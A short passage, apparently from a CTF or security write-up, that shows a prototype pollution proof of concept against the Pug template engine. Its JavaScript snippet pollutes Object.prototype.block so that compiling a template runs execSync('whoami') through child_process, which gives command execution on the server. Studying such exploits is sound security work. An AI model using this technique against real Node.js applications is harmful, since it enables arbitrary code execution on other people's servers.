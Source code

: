 ![AST_Result.png](img/AST_Result.png)

So, let us optimize the code and following the format from **n00b-bot** blog, so the Result will be liked:

```JavaScript
const pug = require('pug');

Object.prototype.block = {  
	"type": "Text",  
	"line": "console.log(process.mainModule.require('child_process').execSync('whoami').toString())"
};  

Object.prototype.code = {};
pug.compile('h1',{debug: true});
```
